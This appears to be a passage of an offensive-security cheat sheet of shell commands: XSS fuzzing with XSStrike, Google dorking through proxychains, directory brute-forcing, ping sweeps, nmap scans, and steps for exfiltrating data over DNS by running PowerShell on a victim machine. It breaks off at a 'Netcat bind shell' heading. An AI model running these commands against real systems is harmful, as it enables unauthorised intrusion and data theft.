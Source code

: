 ### Basic XSS url fuzzing

```shell
python3 ~/XSStrike/xsstrike.py -u https://website.com/param=FUZZ --fuzzer
```

### Clean memory items and cache on run

```shell
sudo pandora bomb
```

### Google dorking

```shell
godork -q "inurl:search.php=" -p 50 | tee results.txt
```

### Google dorking + proxychains

```shell
proxychains godork -q "inurl:search.php=" -p 50 | tee results.txt
```

### Directory bruteforcing

```shell
gobuster dir -url https://website.com/ | anew dirs && dirb https://website.com | anew dirs
```

### Using packetwhisper to exfil data using DNS

1. ```mkdir tmpwork && cd tmpwork && wget  [https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip](https://github.com/TryCatchHCF/PacketWhisper/archive/master.zip)```
2. Start python simple http server
3. Goto victims machine & open outbound port
4. Generate powershell cmd & start wireshark on attacker machine
5. On victim machine, execute generated powershell code

### Ping sweep

```shell
fping -a -g 10.0.2.15/24 2> /dev/null

nmap -sn 10.0.2.15/24
```

### Find service versions of services on server

```shell
sudo nmap -sV -F -sS ip_addr
```

### Netcat bind shell
